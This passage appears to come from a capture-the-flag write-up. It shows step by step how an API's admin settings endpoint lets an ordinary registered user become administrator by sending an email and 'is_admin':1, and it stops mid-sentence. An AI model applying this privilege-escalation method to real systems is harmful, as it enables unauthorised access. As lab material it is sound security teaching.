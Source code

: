 `/api/v1/admin/vpn/generate` returns `401 Unauthorized`

`/api/v1/admin/settings/update` gives us a more interesting response:

```json
{
    "status":"danger",
    "message":"Invalid content type."
}
```

## Exploitation

Interesting! Let's try adding `Content-Type: application/json`:

```json
{
    "status":"danger",
    "message":"Missing parameter: email"
}
```

Rightio seems we're getting somewhere! I set my body to `{"email":"<registered email>"}`

```json
{
    "status":"danger",
    "message":"Missing parameter: is_admin"
}
```

I add `"is_admin":true` to my body:

```json
{
    "status":"danger",
    "message":"Variable is_admin needs to be either 0 or 1."
}
```

I change my body to `{"email":"<registered email>","is_admin":1}`:

```json
{
    "id":29,
    "username":"test2",
    "is_admin":1
}
```

Awesome! Now visiting `/api/v1/admin/auth` returns:

```json
{
    "message":true
}
```

Now requesting to `/api/v1/admin/vpn/generate` returns a new error:
